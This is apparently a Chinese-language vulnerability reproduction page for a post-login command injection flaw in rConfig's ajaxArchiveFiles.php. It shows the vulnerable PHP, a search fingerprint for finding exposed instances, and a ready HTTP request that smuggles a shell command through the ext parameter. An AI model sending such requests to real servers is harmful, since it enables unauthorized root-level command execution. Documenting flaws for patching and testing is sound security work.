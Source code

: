 # rConfig ajaxArchiveFiles.php 后台远程命令执行漏洞

## 漏洞描述

rConfig ajaxArchiveFiles.php文件中由于对path参数和ext参数进行命令拼接，导致攻击者可以远程命令执行获取服务器权限

## 漏洞影响

<a-checkbox checked>rConfig</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="rConfig"</a-checkbox></br>

## 漏洞复现

存在漏洞的文件

**/home/rconfig/www/lib/ajaxHandlers/ajaxArchiveFiles.php**

```php
<?php
require_once("/home/rconfig/classes/usersession.class.php");
require_once("/home/rconfig/classes/ADLog.class.php");
require_once("/home/rconfig/config/functions.inc.php");
$log = ADLog::getInstance();
if (!$session->logged_in) {
    echo 'Don\'t bother trying to hack me!!!!!<br /> This hack attempt has been logged';
    $log->Warn("Security Issue: Some tried to access this file directly from IP: " . $_SERVER['REMOTE_ADDR'] . " & Username: " . $session->username . " (File: " . $_SERVER['PHP_SELF'] . ")");
    // need to add authentication to this script
    header("Location: " . $config_basedir . "login.php");
} else {
//archive logs files
    $mainPath = $_GET['path'];
    $archiveMainPath = $mainPath . "archive/";
    $ext = "*." . $_GET['ext'];
    $fullpath = $mainPath . $ext;
// create and archive dir if not already created
    if (!is_dir($archiveMainPath)) {
        mkdir("$archiveMainPath");
    }
    $today = date("Ymd");
    $commandString = "sudo -u apache zip -r -j " . $archiveMainPath . "filename" . $today . ".zip " . $mainPath . $ext;
    exec($commandString);
    foreach (glob($fullpath) as $v) {
        unlink($v);
    }

    $fileCount = count(glob($mainPath . $ext));

    if ($fileCount > 0) {
        $response = json_encode(array(
            'failure' => true
        ));
    } else {
        $response = json_encode(array(
            'success' => true
        ));
    }
    echo $response;
}  // end session check
```



关键代码如下



```php
$mainPath = $_GET['path'];
    $archiveMainPath = $mainPath . "archive/";
    $ext = "*." . $_GET['ext'];
    $fullpath = $mainPath . $ext;
// create and archive dir if not already created
    if (!is_dir($archiveMainPath)) {
        mkdir("$archiveMainPath");
    }
    $today = date("Ymd");
    $commandString = "sudo -u apache zip -r -j " . $archiveMainPath . "filename" . $today . ".zip " . $mainPath . $ext;
    exec($commandString);
```

**ext参数** 用户可控

```php
$commandString = "sudo -u apache zip -r -j " . $archiveMainPath . "filename" . $today . ".zip " . $mainPath . $ext;
```



没有使用过滤直接拼接命令，导致命令执行，并因为sudo而root权限执行，由于是后台漏洞所以需要登录，配合任意用户创建可以RCE



请求包为



```plain
GET /lib/ajaxHandlers/ajaxArchiveFiles.php?path=1&ext=;ls%3E../../test.txt HTTP/1.1
Host: 
Cookie: cookname=testtest; cookid=a13be657db5e18e453c66c564467b0f2; PHPSESSID=lr7j5r2beat1eprpklrhiorq71
Cache-Control: max-age=0
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="90", "Google Chrome";v="90"
Sec-Ch-Ua-Mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Content-Length: 2
```



再请求 [**http://xxx.xxx.xxx.xxx/test.txt**](http://xxx.xxx.xxx.xxx/test.txt) 验证漏洞



![img](../../../.vuepress/public/img/rc-5.png)